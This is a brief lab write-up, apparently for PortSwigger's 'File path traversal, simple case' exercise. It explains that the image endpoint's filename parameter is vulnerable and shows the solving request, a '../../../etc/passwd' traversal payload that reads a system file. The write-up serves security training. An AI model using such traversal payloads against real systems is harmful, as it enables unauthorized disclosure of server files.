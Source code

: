 
# File path traversal, simple case

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-path-traversal



![img](images/File%20path%20traversal,%20simple%20case/1.png)

---------------------------------------------

To retrieve an image the application uses a GET request with the parameter filename:



![img](images/File%20path%20traversal,%20simple%20case/2.png)


To retrieve /etc/passwd:

```
GET /image?filename=../../../etc/passwd 
```



![img](images/File%20path%20traversal,%20simple%20case/3.png)